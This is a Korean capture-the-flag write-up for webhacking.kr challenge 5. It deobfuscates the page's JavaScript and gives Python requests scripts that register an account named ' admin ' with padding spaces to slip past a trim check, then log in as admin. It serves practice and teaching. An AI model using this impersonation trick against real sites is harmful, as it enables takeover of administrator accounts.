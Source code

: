 ================================================================================================================
[webhacking.kr] 05
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="join.php",arrowhead="normal"];
        step3 -> step2[label="javascript Obfuscated",arrowhead="normal"];
        step4 -> step5[label="id= admin&pw=1234",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

Source analysis
================================================================================================================

- 해당 페이지에는 Login과 Join 버튼만 존재하는데 Join 버튼을 클릭할 경우 'Access_Denied'가 된다.
- Login 버튼을 클릭하면 로그인 페이지가 뜨게 되는데 특별한 부분을 확인할 수 없다.
- Login 버튼 클릭시 login.php로 접근하므로 join.php로 접근을 해보니 검은 바탕화면이 나타나는데 해당 소스를 확인할 수 있었다.

.. code-block:: html

    
    <html>
    <title>Challenge 5</title></head><body bgcolor=black><center>
    <script>
    l='a';ll='b';lll='c';llll='d';lllll='e';llllll='f';lllllll='g';llllllll='h';lllllllll='i';llllllllll='j';lllllllllll='k';llllllllllll='l';lllllllllllll='m';llllllllllllll='n';lllllllllllllll='o';llllllllllllllll='p';lllllllllllllllll='q';llllllllllllllllll='r';lllllllllllllllllll='s';llllllllllllllllllll='t';lllllllllllllllllllll='u';llllllllllllllllllllll='v';lllllllllllllllllllllll='w';llllllllllllllllllllllll='x';lllllllllllllllllllllllll='y';llllllllllllllllllllllllll='z';I='1';II='2';III='3';IIII='4';IIIII='5';IIIIII='6';IIIIIII='7';IIIIIIII='8';IIIIIIIII='9';IIIIIIIIII='0';li='.';ii='<';iii='>';lIllIllIllIllIllIllIllIllIllIl=lllllllllllllll+llllllllllll+llll+llllllllllllllllllllllllll+lllllllllllllll+lllllllllllll+ll+lllllllll+lllll;
    lIIIIIIIIIIIIIIIIIIl=llll+lllllllllllllll+lll+lllllllllllllllllllll+lllllllllllll+lllll+llllllllllllll+llllllllllllllllllll+li+lll+lllllllllllllll+lllllllllllllll+lllllllllll+lllllllll+lllll;if(eval(lIIIIIIIIIIIIIIIIIIl).indexOf(lIllIllIllIllIllIllIllIllIllIl)==-1) { bye; }if(eval(llll+lllllllllllllll+lll+lllllllllllllllllllll+lllllllllllll+lllll+llllllllllllll+llllllllllllllllllll+li+'U'+'R'+'L').indexOf(lllllllllllll+lllllllllllllll+llll+lllll+'='+I)==-1){alert('access_denied');history.go(-1);}else{document.write('<font size=2 color=white>Join</font><p>');document.write('.<p>.<p>.<p>.<p>.<p>');document.write('<form method=post action='+llllllllll+lllllllllllllll+lllllllll+llllllllllllll+li+llllllllllllllll+llllllll+llllllllllllllll
    +'>');document.write('<table border=1><tr><td><font color=gray>id</font></td><td><input type=text name='+lllllllll+llll+' maxlength=5></td></tr>');document.write('<tr><td><font color=gray>pass</font></td><td><input type=text name='+llllllllllllllll+lllllllllllllllllllllll+' maxlength=10></td></tr>');document.write('<tr align=center><td colspan=2><input type=submit></td></tr></form></table>');}
    </script>
    </body>
    </html>

javascript로 된 페이지로 해당 난독화 부분을 복호화해보자.

.. code-block:: html
    
    < html >
    < title > Challenge 5 < /title></head > < body bgcolor = black > < center >
    < script >
    l = 'a';
	ll = 'b';
	lll = 'c';
	llll = 'd';
	lllll = 'e';
	llllll = 'f';
	lllllll = 'g';
	llllllll = 'h';
	lllllllll = 'i';
	llllllllll = 'j';
	lllllllllll = 'k';
	llllllllllll = 'l';
	lllllllllllll = 'm';
	llllllllllllll = 'n';
	lllllllllllllll = 'o';
	llllllllllllllll = 'p';
	lllllllllllllllll = 'q';
	llllllllllllllllll = 'r';
	lllllllllllllllllll = 's';
	llllllllllllllllllll = 't';
	lllllllllllllllllllll = 'u';
	llllllllllllllllllllll = 'v';
	lllllllllllllllllllllll = 'w';
	llllllllllllllllllllllll = 'x';
	lllllllllllllllllllllllll = 'y';
	llllllllllllllllllllllllll = 'z';
	I = '1';
	II = '2';
	III = '3';
	IIII = '4';
	IIIII = '5';
	IIIIII = '6';
	IIIIIII = '7';
	IIIIIIII = '8';
	IIIIIIIII = '9';
	IIIIIIIIII = '0';
	li = '.';
	ii = '<';
	iii = '>';
	lIllIllIllIllIllIllIllIllIllIl = lllllllllllllll + llllllllllll + llll + llllllllllllllllllllllllll + lllllllllllllll + lllllllllllll + ll + lllllllll + lllll;
	lIIIIIIIIIIIIIIIIIIl = llll + lllllllllllllll + lll + lllllllllllllllllllll + lllllllllllll + lllll + llllllllllllll + llllllllllllllllllll + li + lll + lllllllllllllll + lllllllllllllll + lllllllllll + lllllllll + lllll;
	if (eval(lIIIIIIIIIIIIIIIIIIl).indexOf(lIllIllIllIllIllIllIllIllIllIl) == -1) {
	    bye;
	}
	if (eval(llll + lllllllllllllll + lll + lllllllllllllllllllll + lllllllllllll + lllll + llllllllllllll + llllllllllllllllllll + li + 'U' + 'R' + 'L').indexOf(lllllllllllll + lllllllllllllll + llll + lllll + '=' + I) == -1) {
	    alert('access_denied');
	    history.go(-1);
	} else {
	    document.write('<font size=2 color=white>Join</font><p>');
	    document.write('.<p>.<p>.<p>.<p>.<p>');
	    document.write('<form method=post action=join.php>');
	    document.write('<table border=1><tr><td><font color=gray>id</font></td><td><input type=text name=id maxlength=5></td></tr>');
	    document.write('<tr><td><font color=gray>pass</font></td><td><input type=text name=pw maxlength=10></td></tr>');
	    document.write('<tr align=center><td colspan=2><input type=submit></td></tr></form></table>');
	} < /script> < /body> < /html>

|

trim 함수 우회
================================================================================================================

- 코드를 복호화해보면 join.php로 id, pw 파라미터를 통해 가입을 하는 것을 확인할 수 있다. 
- 해당 페이지로 admin을 가입하면 오류 메시지가 발생하는데 space를 넣어 가입할 경우 정상적으로 가입된다. 
- 아마, trim 함수를 통해 id를 확인하는 것으로 보인다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-05/mem/join.php"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    data = {
        "id":" admin ",
        "pw":"1234"
    }

    r = requests.post(url, data=data, cookies = cookies, verify=False)

    print r.content

|

solve
================================================================================================================

- 가입한 계정으로 로그인을 진행하면 로그인 성공!

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-05/mem/login.php"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    data = {
        "id":" admin",
        "pw":"1234"
    }

    r = requests.post(url, data=data, cookies = cookies, verify=False)

    print r.content
